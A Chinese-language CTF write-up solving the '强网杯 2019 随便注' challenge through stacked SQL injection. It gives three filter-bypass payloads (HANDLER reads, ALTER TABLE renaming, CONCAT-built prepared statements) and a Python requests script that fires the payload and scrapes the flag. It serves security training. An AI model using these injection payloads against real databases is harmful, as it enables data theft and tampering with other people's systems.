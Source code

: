 # 分析

来自[[强网杯 2019]随便注](https://buuoj.cn/challenges#[%E5%BC%BA%E7%BD%91%E6%9D%AF%202019]%E9%9A%8F%E4%BE%BF%E6%B3%A8)，sql注入

页面功能只有查询，应该是sql注入，判断注入类型，发现闭合是`'`(单引号)，

![image-20240625210508462](image/image-20240625210508462.png)

发现联合注入被ban了，尝试堆叠注入

![image-20240625210437985](image/image-20240625210437985.png)

知道了字段，

![image-20240625211127979](image/image-20240625211127979.png)

## 方法一：handler语句代替select查询

```php
1';handler `1919810931114514` open as a;  //同样的，这里的表名因为是纯数字所以需要用反引号包裹
handler a read first;
handler ye close;#  //注意：这里必须close handler才可以获取Flag
```

执行完上述请求再请求1即可获得Flag

## 方法二：重命名绕过

```php
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag id varchar(50);#
```

执行完上述请求再请求1’ or 1=1#即可获得Flag

## 方法三：预处理

```php
1';
set @a = CONCAT('se','lect * from `1919810931114514`;');  //字符串拼接绕过select过滤
prepare flag from @a;
EXECUTE flag;#
```

# exp

```python
import requests
import re

url = "http://92882be8-add9-49fb-970f-fd58e4ca9c0f.node5.buuoj.cn:81/"
kw={
  "inject":"1';sEt @a=concat(\"sel\",\"ect * from \`1919810931114514\`\");Prepare hello from @a;execute hello;#"
}
res = requests.get(url, params=kw)

if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", response_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag found -->>{flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```


